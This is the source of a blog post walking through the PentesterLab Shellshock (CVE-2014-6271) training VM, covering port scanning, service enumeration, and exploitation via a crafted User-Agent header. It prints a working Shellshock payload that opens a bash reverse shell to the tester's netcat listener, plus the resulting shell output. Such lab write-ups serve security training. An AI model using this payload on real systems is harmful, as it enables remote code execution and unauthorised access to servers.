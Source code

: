 ```yaml
---
layout: blog_item
title:  "Pen Testers Lab: Shellshock CVE-2014-6271 - Walkthrough"
date:   2014-09-30 10:00:10
author: Arr0way
description: 'Shellshock CVE-2014-6271 Pen Testers Lab - Walkthrough'
categories: [walkthroughs]
tags:
- CTF
---
```



<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Coffee Difficulty Rating:</code></p>
           </td>
           <td>
               <p><i class="fa fa-coffee"></i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}

## Author Description

This course details the exploitation of the vulnerability **CVE-2014-6271** AKA **Shellshock**. This vulnerability impacts the Bourne Again Shell "Bash". Bash is not usually available through a web application but can be indirectly exposed through a Common Gateway Interface "CGI".

**Author:** PentesterLab

**Download:** [VulnHub](https://www.vulnhub.com)

<div class="note info">
  <h5>This is not a challenge VM</h5>
  <p>This VM is part of the exercises provided by <a href="https://pentesterlab.com">PenTestersLab.com</a>, it's not a challenge VM (there is no flag to capture). </p>
</div>

## Host Enumeration

### Port Scanning

{% highlight bash %}

nmap -v -p 1-65535 -sV -O -sT 192.168.221.144

{% endhighlight %}

### Service Enumeration

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Port</th>
      <th>Service</th>
      <th>Version Detection</th>
    </tr>
  </thead>
      <tbody>
        <tr>
           <td>
               <pc><p><code>TCP: 22</code></p></pc>
           </td>
           <td>
               <pc><p>SSH</p></pc>
           </td>
           <td>
               <pc><p>OpenSSH 6.0 (protocol 2.0)</p></pc>
           </td>
        </tr>
        <tr>
           <td>
               <pc><p><code>TCP: 80</code></p></pc>
           </td>
           <td>
              <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.2.21 ((Unix) DAV/2)</p></pc>
           </td>
        </tr>

      </tbody>

</table>
</div>

## Website Inspection

Inspection of Squid using the metasploit module <code>auxiliary/scanner/http/squid_pivot_scanning</code> discovered port 80 was exposed via the proxy.

![Shellshock Burp Suite](/img/blog/pentesterslab/shellshock/shellshock-burp.png)


## Burp Suite - Send Reverse Shellshock

Burp Suite was used to manipulate the <code>User Agent:</code> and deliver the following payload:  

{% highlight bash %}

() { ignored;};/bin/bash -i >& /dev/tcp/192.168.221.139/443 0>&1

{% endhighlight %}

![Burp Suite Shellshock Payload](/img/blog/pentesterslab/shellshock/shellshock-payload-burp.png)

## Reverse Shell

Successfully connecting to the listening netcat instance:

{% highlight bash %}
[root:~]# nc.traditional -lp 443 -vvv
listening on [any] 443 ...
192.168.221.144: inverse host lookup failed: Unknown host
connect to [192.168.221.139] from (UNKNOWN) [192.168.221.144] 44254
bash: no job control in this shell
bash-4.2$ id
id
uid=1000(pentesterlab) gid=50(staff) groups=50(staff),100(pentesterlab)

{% endhighlight %}

End of exercise.

Thanks for the VM :)
